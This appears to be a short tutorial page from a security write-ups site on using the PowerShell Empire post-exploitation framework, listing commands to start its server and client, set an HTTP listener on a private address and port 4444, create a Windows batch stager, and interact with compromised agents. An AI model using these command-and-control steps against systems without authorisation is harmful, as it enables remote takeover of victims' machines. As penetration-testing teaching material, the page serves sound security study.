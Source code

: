 # Welcome to Cyber Secure Labs
Public Site for sharing security writes




## Post Exploitation 



### Working with Powershell Empire 

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

exploitation and post-exploitation of Active Directory (AD) deployments.


Windows Platform: Exploitation and post exploits are performed using Powershell.


Linux & macOS: Exploitation requires Python 2.6 or 2.7



In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below: 

```
sudo powershell-empire server
```

To start the client, the command is below: 

```
sudo powershell-empire client
```

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener 
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
use Listener http

set Name test

set Host 192.168.119.208

set Port 4444

execute

```

### Setting up a stager:


```
usestager windows/launcher_bat

set Listener test

execute

```


### Setting up a stager:

```
agents
```

### Interacting with an agent

```
interact S2PRDACB
```

### Post Exploitation Commands:

```
info
```
